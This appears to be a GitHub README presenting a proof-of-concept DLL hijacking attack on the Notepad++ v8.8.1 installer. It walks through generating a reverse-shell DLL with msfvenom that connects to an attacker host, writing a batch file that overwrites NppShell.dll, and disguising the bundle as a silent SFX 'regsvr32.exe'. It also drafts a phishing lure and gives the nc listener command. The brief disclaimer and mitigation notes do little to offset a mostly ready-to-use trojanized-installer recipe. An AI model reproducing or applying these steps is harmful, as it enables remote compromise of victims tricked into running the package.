 # test-notepad-v8.8.1
this is what i do, and at the same time im learning too from everyone

"Here’s a new plugin pack for Notepad++ to improve your coding productivity! Download it now 💡✨"
yes it is pack with real installer and regsvr32.exe , and yes the attack starts there, phishing and social engineering at its best

# DLL Hijacking in Notepad++ v8.8.1: A Practical PoC Write-up

# Introduction
I tried demonstrate a proof-of-concept (PoC) exploit targeting Notepad++ v8.8.1, which is vulnerable to DLL hijacking via the NppShell.dll component(you also can try with others dll files within the notepad installer). This PoC shows how an attacker can achieve arbitrary code execution by planting a malicious DLL and tricking the application into loading it.

⚠️ Disclaimer: This write-up is for educational purposes only. Always test in isolated environments and never target unauthorized systems.

# What is DLL hijacking?
DLL hijacking is a well-known attack technique where an application loads a malicious DLL instead of a legitimate one due to insecure search paths or missing integrity checks. Once the application loads the malicious DLL, attacker-controlled code executes in the context of the application.

🛠️ Environment setup
Victim machine: Windows 11 with Notepad++ v8.8.1 installed

Attacker machine: Kali Linux (any ver)

Tools used: msfvenom, batch scripting, WinRAR (SFX builder)

#  Step-by-step exploit process
1️⃣ Create the malicious NppShell.dll
On Kali, generate a reverse shell DLL payload using msfvenom:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll -o NppShell.dll

2️⃣ Prepare an installer batch script
Write a simple install.bat:

echo off
cls
copy /Y NppShell.dll "C:\Program Files\Notepad++\contextMenu\NppShell.dll"
This script overwrites the legitimate NppShell.dll in Notepad++.

3️⃣ Bundle files using SFX archive
Bundle NppShell.dll and install.bat into a self-extracting (SFX) archive named regsvr32.exe.

Configure SFX to automatically run install.bat after extraction.

4️⃣ Deploy and execute

Place the Notepad++ v8.8.1 installer and the malicious regsvr32.exe in the same directory on the victim machine.

5️⃣ Trigger execution

The victim simply double-clicks the Notepad++ installer. Simultaneously, the crafted regsvr32.exe is launched stealthily, executing install.bat to overwrite NppShell.dll with the backdoored DLL.
Because the SFX configuration runs the batch script silently, the victim does not see any additional windows or warnings.
When Notepad++ installed, it automatically loads NppShell.dll. Because it now points to the attacker DLL, your reverse shell connects back to your Kali listener.

6️⃣ Boom! 🎯
On your Kali machine, listen for the shell:

nc -lvnp <attacker_port>
Once Notepad++ installed, connection established — you now have code execution on the victim.

#  Impact💥
This attack enables local privilege escalation or persistence if combined with initial access.

# Mitigation🛡️
Mind to upgrade to latest version 

Remove old or unused DLL files.

Apply strict file system permissions to prevent unauthorized modifications.

 # Important Notes ⚠️ 
This PoC only works during the installation phase.
It requires the victim to execute a trojanized installer package that includes your malicious DLL and script.
It does not work on already installed and running Notepad++ software if it was installed correctly before.

thankyouu!
